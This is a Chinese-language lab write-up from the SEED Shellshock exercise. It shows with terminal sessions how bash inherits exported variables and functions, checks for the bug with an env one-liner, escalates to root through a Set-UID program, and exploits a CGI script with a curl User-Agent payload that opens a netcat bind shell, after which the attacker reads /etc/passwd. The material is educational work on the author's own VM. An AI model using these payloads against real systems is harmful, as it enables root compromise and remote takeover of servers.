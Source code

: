 ## Shellshock Attack

## 概述

## 认识环境变量&&bash

1. 普通shell变量和bash
```
[04/12/2018 09:26] seed@ubuntu:~/Seed/shellshock$ gu="hacker"
[04/12/2018 09:26] seed@ubuntu:~/Seed/shellshock$ echo $gu
hacker
[04/12/2018 09:26] seed@ubuntu:~/Seed/shellshock$ bash
[04/12/2018 09:27] seed@ubuntu:~/Seed/shellshock$ echo $gu

[04/12/2018 09:27] seed@ubuntu:~/Seed/shellshock$ exit
exit
[04/12/2018 09:27] seed@ubuntu:~/Seed/shellshock$ 
```
从上述实验中我们得出结论:bash子进程没有继承普通shell变量gu.  

2. 普通环境变量和bash
```
[04/12/2018 09:31] seed@ubuntu:~/Seed/shellshock$ echo $gu
hacker
[04/12/2018 09:32] seed@ubuntu:~/Seed/shellshock$ export gu
[04/12/2018 09:32] seed@ubuntu:~/Seed/shellshock$ bash
[04/12/2018 09:32] seed@ubuntu:~/Seed/shellshock$ echo $gu
hacker
[04/12/2018 09:32] seed@ubuntu:~/Seed/shellshock$ exit
exit
[04/12/2018 09:32] seed@ubuntu:~/Seed/shellshock$
```
从上述实验中我们得出结论:bash子进程继承环境变量gu.  

3. 函数shell变量和bash
```
[04/12/2018 09:37] seed@ubuntu:~/Seed/shellshock$ gu() { echo "gu is a hacker";}
[04/12/2018 09:37] seed@ubuntu:~/Seed/shellshock$ gu
gu is a hacker
[04/12/2018 09:38] seed@ubuntu:~/Seed/shellshock$ bash
[04/12/2018 09:38] seed@ubuntu:~/Seed/shellshock$ gu
gu: command not found
[04/12/2018 09:38] seed@ubuntu:~/Seed/shellshock$ exit
exit
[04/12/2018 09:38] seed@ubuntu:~/Seed/shellshock$
```
从上述实验中我们得出结论:bash子进程没有继承函数shell变量gu.  

4. 函数环境变量和bash
```
[04/12/2018 09:41] seed@ubuntu:~/Seed/shellshock$ gu
gu is a hacker
[04/12/2018 09:41] seed@ubuntu:~/Seed/shellshock$ export -f gu
[04/12/2018 09:41] seed@ubuntu:~/Seed/shellshock$ bash
[04/12/2018 09:42] seed@ubuntu:~/Seed/shellshock$ gu
gu is a hacker
[04/12/2018 09:42] seed@ubuntu:~/Seed/shellshock$ exit
exit
[04/12/2018 09:42] seed@ubuntu:~/Seed/shellshock$ env | grep gu
gu=hacker
gu=() {  echo "gu is a hacker"
[04/12/2018 09:42] seed@ubuntu:~/Seed/shellshock$ 
```
从上述实验中我们得出结论:bash子进程继承了函数环境变量gu.  

5. 再探普通环境变量和bash
```
[04/12/2018 09:42] seed@ubuntu:~/Seed/shellshock$ ailx10='() {  echo "ailx10 is a hacker";}'
[04/12/2018 09:48] seed@ubuntu:~/Seed/shellshock$ export -nf gu
[04/12/2018 09:48] seed@ubuntu:~/Seed/shellshock$ export -n gu
[04/12/2018 09:49] seed@ubuntu:~/Seed/shellshock$ export -f ailx10
bash: export: ailx10: not a function
[04/12/2018 09:49] seed@ubuntu:~/Seed/shellshock$ export ailx10
[04/12/2018 09:49] seed@ubuntu:~/Seed/shellshock$ bash
[04/12/2018 09:50] seed@ubuntu:~/Seed/shellshock$ ailx10
ailx10 is a hacker
[04/12/2018 09:50] seed@ubuntu:~/Seed/shellshock$ env | grep ailx10
ailx10=() {  echo "ailx10 is a hacker"
[04/12/2018 09:50] seed@ubuntu:~/Seed/shellshock$ exit
exit
[04/12/2018 09:50] seed@ubuntu:~/Seed/shellshock$ env | grep ailx10
ailx10=() {  echo "ailx10 is a hacker";}
[04/12/2018 09:50] seed@ubuntu:~/Seed/shellshock$ 
```
从上述实验中我们得出结论:bash子进程误把普通环境变量`(){ :; }`当做函数环境变量处理了.  

6. `() { :;}`再探
```
[04/12/2018 09:57] seed@ubuntu:~/Seed/shellshock$ ailx10='() { :; };/bin/ls'
[04/12/2018 09:58] seed@ubuntu:~/Seed/shellshock$ export ailx10
[04/12/2018 09:58] seed@ubuntu:~/Seed/shellshock$ bash
curl-7.20.0	    myls	  myls.c      myprog.cgi.1  readme.txt
curl-7.20.0.tar.gz  myls-notroot  myprog.cgi  myprog.cgi.2
[04/12/2018 09:58] seed@ubuntu:~/Seed/shellshock$ exit
exit
[04/12/2018 09:58] seed@ubuntu:~/Seed/shellshock$ 

```

从上述实验中我们得出结论:bash子进程处理了`/bin/ls`.  

**综上所述触发bash漏洞可以归纳如下**
1. 产生新的bash
2. 通过环境变量传递
3. 环境变量以`() {}`这样的形式

如何用一条语句验证bash漏洞?
```
[04/12/2018 10:14] seed@ubuntu:~/Seed/shellshock$ env x='() { :;}; echo vulnerable' bash -c "echo this is a test"
vulnerable
this is a test
[04/12/2018 10:14] seed@ubuntu:~/Seed/shellshock$ 
[04/12/2018 10:14] seed@ubuntu:~/Seed/shellshock$ 
[04/12/2018 10:14] seed@ubuntu:~/Seed/shellshock$ env x='() { :;}; echo vulnerable' bash -c :
vulnerable
[04/12/2018 10:14] seed@ubuntu:~/Seed/shellshock$
```

**注意:**
`:`什么都不做,在这里和true等价
```
$ if true; then echo yes; fi
yes
$ if :; then echo yes; fi
yes
$
```
`env`可以创建临时环境变量.  
`bash -c`可以运行一个shell命令.  
```
$ bash -c 'echo hi'
hi
$ bash -c 'echo $t'

$ env t=exported bash -c 'echo $t'
exported
$
```

## 攻击Set-UID程序

将sh软链接到我们有漏洞的bash:`sudo ln -sf /bin/bash /bin/sh `  

看一个简单的c程序,功能等同与shell命令`ls`:
```c
#include <stdio.h>
void main()
{
    setuid(geteuid()); // make real uid = effective uid.
    system("/bin/ls -l");
}
```
1. 导入我们的环境变量
` export gu='() { :;};/bin/sh'`
2. 编译运行上面的小程序
设置Set-UID和不设置Set-UID的运行结果如下:

```

[04/12/2018 10:36] seed@ubuntu:~/Seed/shellshock$ export gu='() { :;};/bin/sh'
[04/12/2018 10:36] seed@ubuntu:~/Seed/shellshock$ ./myls
sh-4.2#
sh-4.2# whoami
root
sh-4.2# pwd
/home/seed/Seed/shellshock
sh-4.2# ls
curl-7.20.0	    myls	  myls.c      myprog.cgi.1  readme.txt
curl-7.20.0.tar.gz  myls-notroot  myprog.cgi  myprog.cgi.2
sh-4.2#
sh-4.2#
sh-4.2# exit
exit
[04/12/2018 10:37] seed@ubuntu:~/Seed/shellshock$ ./myls-notroot 
sh-4.2$ 
sh-4.2$ whoami
seed
sh-4.2$ exit
exit
[04/12/2018 10:38] seed@ubuntu:~/Seed/shellshock$ 

```
通过实验结果我们可以得出结论:我们获得了一个root shell和一个普通shell.  

## 攻击CGI程序

1. 创建CGI程序
创建myprog.cgi,将文件放入`/usr/lib/cgi-bin/`目录中,设置可执行权限755,  
开启apache.通过浏览器访问`127.0.0.1/cgi-bin/myprog.cgi`试一试.  
再试一试`curl http://127.0.0.1/cgi-bin/myprog.cgi`.  

```
#!/bin/bash
echo "Content-type: text/plain"
echo
echo
echo "Hello World"
```
2. 获取网站控制权限

虚拟机的IP地址:192.168.59.142/24
主机的IP地址:192.168.59.1/24

**触发网站的shellshock:**
`curl -A "() { :;};echo; /bin/nc -lp 10086 -c bash" http://192.168.59.142/cgi-bin/myprog.cgi`


**黑客的主机控制了肉鸡:**

```
root@gt:/home/git/Keep-learning/mySeedLab# nc 192.168.59.142 10086
whoami
www-data
pwd
/usr/lib/cgi-bin
ls
my2.cgi
myprog.cgi
php
php5
cat /etc/passwd
...
hacker:x:1002:1003::/home/hacker:/bin/sh
gu:x:1001:1004::/home/gu:/bin/sh

```

注意:
1. 主机和虚拟机能够互相Ping通
2. 主机可以通过浏览器访问虚拟机中的网站
3. nc使用netcat-traditional替换netcat-openbsd
4. 更多Linux shell命令可以订阅我的专栏`ath0的Linux笔记`
